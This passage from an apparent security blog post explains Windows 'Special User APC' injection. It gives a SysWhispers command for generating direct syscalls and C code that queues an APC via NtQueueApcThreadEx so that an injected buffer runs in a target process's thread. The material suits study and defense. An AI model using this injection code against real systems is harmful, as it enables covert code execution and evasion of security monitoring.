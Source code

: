 ## Special User APC or NtQueueApcThreadEx

Special User APC is a new system call that has been added since the RS5 release of windows and could be achieved by using the **NtQueueApcThreadEx** function. normally, a thread can only run APCs when it enters an alertable state. but using Special User APC we can force a thread to run APC without entering an alertable state. but remember using special user APC could be dangerous in some cases and lead the thread to deadlock. read [repnz](https://repnz.github.io/posts/apc/user-apc/) post for more information.

We implement Special User APC using syscalls. We use [SysWhisper](https://github.com/jthuraisamy/SysWhispers) to generate syscalls and their definition. then we add the **header** and **asm** files that **SysWhisper** already generate to our project. you should also enable **MASM** in the visual studio for your project.
```bash
python syswhispers.py -f NtQueueApcThreadEx,NtOpenProcess,NtAllocateVirtualMemory,NtWriteVirtualMemory,NtOpenThread --version 10 -o syscalls
```
All the steps that we take to utilize Special User APC for APC injection are like the Simple APC Injection. the only difference is that we don't APC to all threads in this case. we use the **NtQueueApcThreadEx** function to queue a special APC to the first thread that belongs to our target process.

```c
typedef enum _QUEUE_USER_APC_FLAGS {
	QueueUserApcFlagsNone,
	QueueUserApcFlagsSpecialUserApc,
	QueueUserApcFlagsMaxValue
} QUEUE_USER_APC_FLAGS;


typedef union _USER_APC_OPTION {
	ULONG_PTR UserApcFlags;
	HANDLE MemoryReserveHandle;
} USER_APC_OPTION, *PUSER_APC_OPTION;
```
then we initialize the structs and call the function.
```c
USER_APC_OPTION UserApcOption;
UserApcOption.UserApcFlags = QueueUserApcFlagsSpecialUserApc;

for (Thread32First(snapshot, &te); Thread32Next(snapshot, &te);) {
	if (te.th32OwnerProcessID == target_process_id) {


		HANDLE target_thread_handle = OpenThread(THREAD_ALL_ACCESS, NULL, te.th32ThreadID);

		NtQueueApcThreadEx(target_thread_handle, QueueUserApcFlagsSpecialUserApc, (PKNORMAL_ROUTINE)target_process_buffer, NULL, NULL, NULL);

		CloseHandle(target_thread_handle);
		break;

	}
}
```
You can find all of the PoCs for this post on my [Github](https://github.com/AlionGreen/apc-injection) account.
